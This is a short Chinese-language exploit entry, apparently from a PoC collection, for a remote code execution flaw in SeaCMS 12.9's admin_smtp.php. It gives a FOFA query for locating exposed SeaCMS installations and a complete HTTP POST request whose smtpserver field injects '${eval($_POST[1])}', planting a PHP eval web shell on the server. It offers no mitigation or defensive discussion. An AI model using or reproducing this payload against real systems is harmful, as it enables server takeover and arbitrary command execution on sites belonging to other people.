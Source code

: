 # 海洋CMS后台admin_smtp.php存在远程代码执行漏洞

SeaCMS 12.9存在远程代码执行漏洞。该漏洞是由于admin_smtp.php将用户输入的数据未经处理直接拼接写入weixin.php造成的，允许经过身份验证的攻击者利用该漏洞执行任意命令并获取系统权限。

## fofa

```yaml
app="海洋CMS"
```

## poc

```yaml
POST /at1fcg/admin_smtp.php?action=set HTTP/1.1
Host: 127.0.0.12
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 192
Origin: http://127.0.0.12
Connection: close
Referer: http://127.0.0.12/at1fcg/admin_smtp.php
Cookie: PHPSESSID=rcejd2jps1jcrv8gdoumqmf71k
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

smtpserver=${eval($_POST[1])}&smtpserverport=&smtpusermail=12345%40qq.com&smtpname=%E6%B5%B7%E6%B4%8B%E5%BD%B1%E8%A7%86%E7%BD%91&smtpuser=12345%40qq.com&smtppass=123456789&smtpreg=off&smtppsw=
```

![QQ截图20240703085443-3](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191152600.png)

![](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191152599.png)
